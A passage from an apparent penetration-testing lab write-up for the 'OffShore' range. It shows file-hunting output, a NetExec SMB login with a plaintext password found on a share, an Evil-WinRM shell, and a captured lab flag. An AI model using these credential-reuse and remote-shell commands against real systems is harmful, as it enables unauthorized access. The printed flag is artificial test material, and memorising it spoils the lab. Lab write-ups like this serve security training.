[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:03:35Z [File] {Yellow}<KeepDatabaseByExtension|R|^\.bak$|6.4kB|2018-03-07 17:30:32Z>(\\SQL01.corp.local\C$\Documents and Settings\Administrator\Local Settings\Application Data\Microsoft\Internet Explorer\brndlog.bak) .bak
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:03:35Z [File] {Red}<KeepDbMgtConfigByName|R|^SqlStudio\.bin$|25.6kB|2018-03-28 06:19:42Z>(\\SQL01.corp.local\C$\Documents and Settings\Administrator\Application Data\Microsoft\SQL Server Management Studio\12.0\SqlStudio.bin) SqlStudio.bin
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:03:38Z [File] {Red}<KeepDbMgtConfigByName|R|^SqlStudio\.bin$|30.2kB|2020-02-10 19:46:14Z>(\\SQL01.corp.local\C$\Documents and Settings\iamtheadministrator\Application Data\Microsoft\SQL Server Management Studio\12.0\SqlStudio.bin) SqlStudio.bin
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:03:38Z [File] {Yellow}<KeepDatabaseByExtension|R|^\.bak$|4.2kB|2020-02-03 16:17:23Z>(\\SQL01.corp.local\C$\Documents and Settings\iamtheadministrator\Local Settings\Application Data\Microsoft\Internet Explorer\brndlog.bak) .bak
```

And you can immediately see that the share seems automapped via a bat file?




Umh can be that his password for real?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/www]
└─# NetExec smb 172.16.1.26 -u 'Bill' -p 'I like to map Shares!' --shares
SMB         172.16.1.26     445    FS01             [*] Windows Server 2016 Standard 14393 x64 (name:FS01) (domain:corp.local) (signing:False) (SMBv1:True)
SMB         172.16.1.26     445    FS01             [+] corp.local\Bill:I like to map Shares! 
SMB         172.16.1.26     445    FS01             [*] Enumerated shares
SMB         172.16.1.26     445    FS01             Share           Permissions     Remark
SMB         172.16.1.26     445    FS01             -----           -----------     ------
SMB         172.16.1.26     445    FS01             ADMIN$                          Remote Admin
SMB         172.16.1.26     445    FS01             C$                              Default share
SMB         172.16.1.26     445    FS01             IPC$                            Remote IPC
SMB         172.16.1.26     445    FS01             Users           READ
```

Seems like yes?

```
*Evil-WinRM* PS C:\Users\MSSQL$SQLEXPRESS> ls


    Directory: C:\Users\MSSQL$SQLEXPRESS


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        4/29/2018   3:13 AM                Desktop
d-r---        3/23/2018   4:44 PM                Documents
d-r---        7/16/2016   9:23 AM                Downloads
d-r---        7/16/2016   9:23 AM                Favorites
d-r---        7/16/2016   9:23 AM                Links
d-r---        7/16/2016   9:23 AM                Music
d-r---        7/16/2016   9:23 AM                Pictures
d-----        7/16/2016   9:23 AM                Saved Games
d-r---        7/16/2016   9:23 AM                Videos


*Evil-WinRM* PS C:\Users\MSSQL$SQLEXPRESS> cd Desktop
*Evil-WinRM* PS C:\Users\MSSQL$SQLEXPRESS\Desktop> cat flag.txt
OFFSHORE{cm0n!_an0th3r_sqli!?}
*Evil-WinRM* PS C:\Users\MSSQL$SQLEXPRESS\Desktop>
```

I will move on to the FS01.

&nbsp;

# Extra

Apparently got another side tips to check again as I have missed another flag and yeah I missed it:

```
│   │       winrt--{S-1-5-21-2291914956
│   │
│   └───Videos
├───MSSQL$SQLEXPRESS
│   ├───Desktop
│   │       flag.txt
│   │
│   ├───Documents
│   ├───Downloads
│   ├───Favorites
│   ├───Links
│   ├───Music
│   ├───Pictures
│   ├───Saved Games
```

And we have it baby!

&nbsp;